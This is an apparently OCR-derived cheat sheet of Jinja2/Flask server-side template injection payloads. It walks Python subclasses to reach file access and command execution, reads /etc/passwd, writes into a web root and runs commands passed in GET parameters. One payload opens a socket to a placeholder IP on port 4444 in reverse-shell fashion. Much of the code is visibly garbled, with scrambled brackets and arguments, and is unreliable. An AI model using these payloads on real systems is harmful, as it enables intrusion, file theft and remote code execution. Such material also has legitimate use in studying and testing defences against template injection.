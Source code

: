 ```python
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}




# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
```
### RCE Escaping

**Having recovered** `<class 'object'>` and called `__subclasses__` we can now use those classes to read and write files and exec code.

The call to `__subclasses__` has given us the opportunity to **access hundreds of new functions**, we will be happy just by accessing the **file class** to **read/write files** or any class with access to a class that **allows to execute commands** (like `os`).

**Read/Write remote file**

```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[['/etc/passwd').read(|40]] }}
{{ ''.__class__.__mro__[1].__subclasses__()[['/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !'|40]] }}
```
```
**RCE**

```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[['cat flag.txt',shell=True,stdout=-1).communicate()[0].strip(|396]]}}

# Without '{{' and '}}'

a


# Calling os.popen without guessing the index of the class
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__[['os').popen("ls").read(|'__import__']]}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__[['os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417|'__import__']]}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__[['os').popen(request.args.input).read(|'__import__']]}}{%endif%}{%endfor%}
{% endraw %}

## Passing the cmd line ?cmd=id, Without " and '
{{ dict.mro()[-1].__subclasses__()[[request.args.cmd,shell=True,stdout=-1).communicate()[0].strip(|276]] }}

```